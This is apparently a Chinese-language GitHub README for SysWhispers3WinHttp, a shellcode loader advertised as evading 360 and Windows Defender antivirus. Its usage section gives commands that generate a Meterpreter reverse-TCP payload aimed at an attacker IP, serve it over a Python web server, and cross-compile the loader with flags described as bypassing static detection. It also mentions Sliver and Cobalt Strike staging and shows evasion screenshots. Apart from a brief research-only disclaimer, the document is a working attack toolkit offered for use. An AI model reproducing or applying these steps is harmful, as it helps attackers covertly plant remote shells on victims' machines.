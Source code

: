 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender等杀软。

## 0x00 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志：
2023/06/06 支持64位GCC编译且可通过Stager方式上线SliverC2，增添编译参数绕过静态检测。

## 0x02 使用：

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1

// ps. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h，修改第40行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1
```

## 0x03 演示：

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/b4534cba-2b86-47d7-bcf3-553739e2012b1)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a134f8bd-922d-4132-af9d-c8eee6b07fc1)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
